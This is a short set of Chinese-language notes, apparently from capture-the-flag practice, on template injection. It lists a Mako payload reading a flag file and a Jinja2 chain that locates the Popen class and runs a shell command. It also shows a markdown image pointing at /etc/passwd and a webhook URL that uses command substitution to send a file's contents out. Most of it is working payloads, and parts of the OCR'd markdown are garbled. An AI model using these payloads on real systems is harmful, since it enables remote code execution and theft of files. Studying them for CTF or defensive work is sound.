 mako 模版注入 ${7*7}   payload: %24{open('..%2Fflag.txt').read()}

jinjia2 模版注入

**列出所有 Python 类**

{{''.**class**.**mro**[1].**subclasses**()}}

- `''.__class__str`
    
    访问字符串类（
    
    ）
    
- `.__mro__[1]object`
    
    检索超类（
    
    ）
    
- `.__subclasses__()object`
    
    返回从继承的所有类
    

**查找`Popen`类别索引**

{% for c in ''.__class__.__mro__[1].__subclasses__() %}

{% if 'Popen' in c.__name__ %}

{{ loop.index0 }} - {{ c }}

{% endif %}

{% endfor %}

这将循环遍历所有子类，并打印包含 的类的索引`Popen`。我在索引 处找到了它`359`。

{{''.**class**.**mro**[1].**subclasses**()[359]('id', shell=True, stdout=-1).communicate()[0].decode()}}

- `stdout=-1`
    
    捕获输出
    
- `.communicate()[0]`
    
    获取字节响应
    
- `.decode()`
    
    将字节转换为可读的字符串
    

`![alt text](URL)`

- `alt text`
    
    ：这是图像加载失败时显示的文本。
    

![alt text](file:///etc/passwd)

webhook

url?x=$(cat${IFS}/flag.txt)
